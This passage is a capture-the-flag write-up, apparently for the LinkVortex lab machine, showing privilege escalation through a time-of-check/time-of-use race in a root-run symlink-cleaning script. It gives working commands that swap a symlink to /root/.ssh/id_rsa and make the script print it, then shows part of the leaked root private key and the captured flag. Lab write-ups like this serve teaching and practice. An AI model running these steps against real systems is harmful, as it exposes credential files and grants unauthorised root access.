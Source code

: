 - **Check file permissions**
  - Command: `ls -la /opt/ghost/clean_symlink.sh`
      - Output: 
        ```
        -rwxr--r-- 1 root root 745 Nov 1 08:46 /opt/ghost/clean_symlink.sh
        ``` 
  - Cannot write, but read.
  - The script takes a .png file as input, checks if it's a symbolic link, and inspects the link's target. 
  - If the target points to sensitive directories like /etc or /root , it unlinks the file; otherwise, it moves
    it to a quarantine folder `/var/quarantined`. 

  - Once moved to quarantine and if the environment variable `CHECK_CONTENT` is set to true , it prints the content of the linked file.
  - A race condition called TOCTOU (Time-of-Check to Time-of-Use) opens up here. After the symlink is
    moved to quarantine, we can quickly swap the link target to point to a sensitive file such as
    /etc/shadow or even a private key for root such as `/root/.ssh/id_rsa` . If we also set
    `CHECK_CONTENT=true` , the script will read the sensitive file, bypassing the initial check!

- **Create a directory to emulate Ghost path structure**
  - Command `mkdir -p exploit2/content/images/`
- **Create a symlink to a file for testing**
  - Command `ln -s /ok exploit2/content/images/key.png`
  - Zip it 
    `zip -r -y exploit2.zip exploit2/`
- **Import the zip file to web**
  - Go to Settings > Labs > Import Content

- **Open another terminal**
  - Create an infinite loop to change the symlink to /root/.ssh/id_rsa
  - Command `while true;do ln -sf /root/.ssh/id_rsa
/var/quarantined/key.png;done`

- **Run the script**
  - `export CHECK_CONTENT=true; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /opt/ghost/content/images/key.png`
      - Output:
        ```
        Link found [ /opt/ghost/content/images/key.png ] , moving it to quarantine
        Content:
        -----BEGIN OPENSSH PRIVATE KEY-----
        b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
        <...SNIP..>
        xmo6eXMvU90HVbakUoRspYWISr51uVEvIDuNcZUJlseINXimZkrkD40QTMrYJc9slj9wkA
        ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
        -----END OPENSSH PRIVATE KEY-----
        ```

- **SSH as root**
  - Copy the private key to a file named `root`
  - `chmod 600 root`
  - `ssh -i root root@linkvortex.htb`

- **Root Flag obtained**
  - Flag : fd42da09a7da1b29d7ed33cbfd983d71
---


